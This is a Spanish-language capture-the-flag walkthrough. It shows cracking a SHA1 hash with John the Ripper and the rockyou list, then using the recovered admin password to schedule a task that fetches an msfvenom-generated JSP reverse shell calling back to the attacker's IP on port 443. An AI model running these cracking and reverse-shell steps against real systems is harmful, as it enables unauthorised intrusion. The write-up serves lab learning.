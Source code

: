 Obtenemos la contraseña "happyday" del crackeo del hash:
```ruby
# john hash.txt -w=$(locate rockyou.txt | head -n 1)
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)     
1g 0:00:00:00 DONE (2024-01-08 10:19) 100.0g/s 512000p/s 512000c/s 512000C/s happyday..allison1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```
### Abusing Scheduled Tasks - Creating malicious JSP file  

Ahora, con la contraseña, podriamos intentar replicar lo que hace el exploit del **RCE**. Crearemos un **JSP** malicioso para ganar acceso a la maquina.

Creamos el **JSP** con **MsfVenom** de la siguiente manera:
```ruby
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.204 LPORT=443 -o pwned.jsp
Payload size: 1497 bytes
Saved as: pwned.jsp
```

Con la contraseña que obtuvimos anteriormente, vamos acceder al sitio de administrador que se encuentra en esta dirección:
![[Pasted image 20240108103011.png]]

Una vez dentro, vamos a crear una **Tarea** la cual ejecutara nuestro script:
![[Pasted image 20240108104118.png]]

Aqui, vamos a darle a **Schedule New Task**:
![[Pasted image 20240108104154.png]]

Llenamos el formulario e indicamos nuestro servidor(que vamos a levantar posteriormente para ofrecer el JSP):
![[Pasted image 20240108105322.png]]

Y vemos que se crea correctamente:
![[Pasted image 20240108104605.png]]

Revisando el sevidor web que nos montamos, encontramos una peticion por **GET**:
![[Pasted image 20240108105440.png]]

Como tenemos capacidad de listar directorios, podemos dar con el script malicioso y ejecutarlo desde ahi para recibir una Shell
![[Pasted image 20240108105538.png]]
